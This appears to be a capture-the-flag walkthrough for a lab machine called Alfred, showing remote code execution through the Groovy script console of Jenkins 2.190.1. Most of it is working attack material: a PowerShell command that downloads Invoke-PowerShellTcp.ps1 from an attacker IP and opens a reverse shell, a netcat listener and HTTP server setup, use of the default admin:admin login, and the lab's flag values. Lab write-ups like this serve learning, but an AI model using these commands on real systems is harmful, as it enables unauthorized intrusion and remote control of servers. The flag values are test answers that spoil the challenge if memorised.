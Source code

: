 # Alfred

![[7c5699b320e84609a8a43d835aae408b.jpg]]

Jenkins 2.190.1

RCE can be accomplished by creating a project (too noisy) or by using the **Groovy Script** - this skeleton script was pulled from HackTricks (https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins)
## Proof of concept
![[12081e6f0ffc4e68a881bd3bd4c51ad6.png]]
The above picture shows that RCE is possible.

## Exploit
### Hacktricks said we can use this:

``` Groovy
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');
Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

### Tailored to our situation:
``` Groovy
"powershell iex (New-Object Net.WebClient).DownloadString('http://10.2.73.217:9000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.2.73.217 -Port 4444".execute()
```

1. **Attack Box**
	1. Host the Invoke-PowerShellTcp.ps1 file
		`cd LOCATION_OF_PS1FILE`
		`python -m http.server 9000`
	3. Start a nc listener on 4444
		 `nc -nvlp 4444`
2. **Jenkins UI**: go to http://ip:port/scripts
	1. Use credential **admin**:**admin** if necessary
	2. Paste modified script from above.
	3. Click **Run**

### Boom, we got shell
![[6a6828dd3fbe47058f5a37e6b823a3f9.png]]

### User Flag
![[5a951ec567624861be4e62fb58b63d61.png]]
![[95ab765549eb41a68164ffc0f0db8239.png]]
`79007a09481963edf2e1321abd9ae2a0`



![[78e78c8012044d4b9262fec7f31aa002.png]]
`dff0f748678f280250f25a45b8046b4a`